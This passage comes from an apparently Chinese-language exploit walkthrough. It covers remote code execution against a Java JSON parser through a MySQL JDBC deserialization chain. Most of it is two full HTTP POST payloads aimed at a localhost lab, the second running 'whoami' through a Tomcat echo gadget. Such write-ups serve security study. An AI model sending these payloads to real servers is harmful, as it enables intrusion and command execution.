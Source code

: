 可以看到，目前我们初步判断的是服务端存在
- `TreeList` -> `commons-collections 3.1` 
- `BeanIntrospector` -> `commons-beanutils` >= `190`

![image](https://user-images.githubusercontent.com/84888757/229670212-408135bd-e20b-47ca-a46d-36ec3f2eec68.png)

POST 数据包如下：
```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 473

{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"127.0.0.1","portToConnectTo":3307,"info":{"user":"CC31","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://127.0.0.1:3307/test?user=CC31&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```

## 3.4 回显RCE
通过前面的 `dnslog` 探测，我们知道目标网站存在 `commons-beanutils` >= `190`

Tomcat 回显类：https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8

<div align=center><img width="840" alt="image" src="https://user-images.githubusercontent.com/84888757/229471133-72d8cd9a-4748-41e6-8f20-10f19b61be1d.png" /></div>


```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
cmd: whoami
Content-Type: application/json
Content-Length: 505

{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"127.0.0.1","portToConnectTo":3307,"info":{"user":"CB190_Tomcat_DFSEcho","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://127.0.0.1:3306/test?user=CB190_Tomcat_DFSEcho&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```
